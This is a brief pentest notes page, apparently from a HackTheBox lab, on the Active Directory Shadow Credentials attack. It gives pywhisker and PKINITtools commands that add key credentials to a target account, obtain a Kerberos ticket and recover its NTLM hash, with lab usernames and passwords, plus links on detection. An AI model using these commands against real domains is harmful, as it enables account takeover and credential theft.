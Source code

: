 +++
title = "Pentest - Active Directory - Shadow Credentials"
author = ["svejk"]
tags = ["kerberos"]
draft = false
+++

## Shadow Credentials {#shadow-credentials}

[pywhisker](https://github.com/ShutdownRepo/pywhisker)

Abuse the GenericWrite ACL to get control of an account by adding shadow credentials:

```shell { linenos=true, linenostart=1 }
python3 /opt/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add
```

The output is a PFX cert that can be used to authenticate as the user. Get a `TGT` for the user with [PKINITtools](https://github.com/dirkjanm/PKINITtools):

```shell { linenos=true, linenostart=1 }
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx vGRMeeb9.pfx certified.htb/management_svc -pfx-pass '25nQ6mg4JUTeQEjjNRE2' management_svc.ccache
```

This will create a Kerberos ticket called management_svc.ccache file, which we can export and use the key this output provides in conjunction with `getnthash.py` from the same toolkit to get the NTLM hash of the management_svc user.


### See also: [targetedKerberos](https://github.com/ShutdownRepo/targetedKerberoast) {#see-also-targetedkerberos}


### Links {#links}

[dsinternals](https://www.dsinternals.com/en/indicator-of-compromise-shadow-credentials-ntlm-relay-impacket/)
[Detecting shadow credentials](https://cyberstoph.org/posts/2022/03/detecting-shadow-credentials/)
[hacker recipes](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
[hackingarticles](https://www.hackingarticles.in/shadow-credentials-attack/)
[medium](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
